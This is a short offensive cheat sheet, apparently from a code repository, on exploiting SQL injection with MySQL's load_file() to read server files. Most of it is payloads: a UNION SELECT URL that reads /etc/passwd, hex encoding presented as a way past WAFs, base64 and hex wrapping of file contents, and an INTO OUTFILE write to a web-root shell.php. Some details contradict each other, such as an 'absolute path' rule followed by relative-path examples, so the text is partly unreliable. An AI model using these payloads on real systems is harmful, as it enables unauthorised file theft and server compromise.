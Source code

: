 # SQL Injection: LFI (Local File Inclusion) via load_file() function

If the database user has read permission (which most of the time it does), it is possible for an attacker to read the internal file of the server, with a small caviat that the absolute path must be known (just as a normal LFI).
In order to perform this kind of attack, the following function must be used:  

```sql
load_file(/path/to/file)
```

For example, the most basic approach is to read /etc/passwd:  
```sql
load_file('../etc/passwd')
```

A simple usage of the query:  
```
http://domain.com/index.php?id=1' Union Select 1,2,3,load_file('/etc/passwd'),5,6,7,8,9,10,11,12-- -
```

Alternatively you can convert **/etc/passwd** in 0xHex Format (in case WAF blocks it, or the backslashes might break up the syntax:  
```sql
load_file(0x2e2e2f6574632f706173737764)
```
Just like normal LFI, it is possible to convert the content of the file in base64, thanks to **TO_base64()** function:  
```sql
TO_base64(LOAD_FILE('/var/www/html/index.php'))  
```

You can also use **hex()** function in configuration files especially, when some characters are non-readable and might break the execution of the query:  
```sql
hex(load_file('/etc/passwd'))
```

It is possible to read the content of the file and copy it somewhere else where it's accessible to read:  
```
load_file('/etc/passwd') INTO OUTFILE '/var/www/html/shell.php'--
```
